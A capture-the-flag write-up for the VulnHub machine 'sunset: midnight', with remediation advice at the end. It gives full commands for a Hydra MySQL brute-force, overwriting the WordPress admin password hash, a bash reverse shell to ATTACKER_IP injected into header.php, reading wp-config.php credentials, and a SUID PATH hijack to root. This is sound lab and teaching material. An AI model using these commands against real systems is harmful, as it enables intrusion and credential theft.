

# sunset: midnight — Writeup

| | |
|-|-|
| **Target IP** | 192.168.10.178 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | /root/root.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/sunset-midnight,517/) |

## Attack Summary

nmap → WordPress site + `/etc/hosts` entry → Hydra MySQL brute → MySQL credential → overwrite WP admin password hash → PHP reverse shell via theme editor → `wp-config.php` creds → SSH as `jose` → SUID `/usr/bin/status` + strings PATH hijack → root

## Methodology

1. Network discovery
2. nmap + `/etc/hosts` setup
3. MySQL brute-force with Hydra
4. WordPress admin password hash overwrite via MySQL
5. PHP reverse shell via theme editor
6. Lateral movement to `jose` via `wp-config.php`
7. SUID binary PATH hijack for root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
```

---

## Step 2: Port Scan and Setup

```bash
nmap -A -p- 192.168.10.178
```

Add hostname to hosts file:

```bash
echo "192.168.10.178  sunset-midnight" >> /etc/hosts
```

Ports found: 80 (HTTP/WordPress), 3306 (MySQL).


---

## Step 3: MySQL Brute-Force

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.10.178 mysql
```

MySQL root credentials recovered.



---

## Step 4: Overwrite WordPress Admin Password

Connect to MySQL and update the admin password hash to MD5 of `123456`:

```bash
mysql -u root -p<PASSWORD> -h 192.168.10.178
use wordpress;
SELECT user_login, user_pass FROM wp_users;
UPDATE wp_users SET user_pass=MD5('123456') WHERE user_login='admin';
```

---

## Step 5: PHP Reverse Shell via Theme Editor

Log in to `http://sunset-midnight/wp-admin/` as `admin:123456`.

Navigate to **Appearance → Theme Editor → header.php** and inject a PHP reverse shell:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"); ?>
```

Start listener and browse to the site:

```bash
nc -nlvp 4444
curl http://sunset-midnight/
```

Shell received as `www-data`.


---

## Step 6: Credential Discovery

```bash
cat /var/www/html/wordpress/wp-config.php
```

Contains the password for user `jose`. Lateral move:

```bash
su jose
# or: ssh jose@localhost
```

---

## Step 7: SUID PATH Hijack for Root

```bash
find / -perm -u=s -type f 2>/dev/null
strings /usr/bin/status
```

`/usr/bin/status` calls `service` without an absolute path.

```bash
echo '/bin/sh' > /tmp/service
chmod +x /tmp/service
export PATH=/tmp:$PATH
/usr/bin/status
id
cat /root/root.txt
```


---

## Lessons Learned

1. **MySQL exposed externally** with a brute-forceable root password is critical — bind MySQL to localhost only
2. **WordPress admin panel access** → instant code execution via theme/plugin editor — restrict wp-admin by IP
3. **wp-config.php credentials** reused for system users create a lateral movement path — use unique credentials
4. **SUID binaries calling relative paths** are a reliable root vector — always use absolute paths in privileged code

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| MySQL exposed externally | Bind to 127.0.0.1 in `my.cnf`; use firewall rules |
| Weak MySQL root password | Strong password + restrict remote connections |
| WP admin shell execution | Disable theme/plugin file editing (`DISALLOW_FILE_EDIT`) |
| wp-config.php password reuse | Use unique DB credentials; restrict file permissions |
| SUID binary relative PATH | Replace `service` calls with absolute path `/usr/sbin/service` |
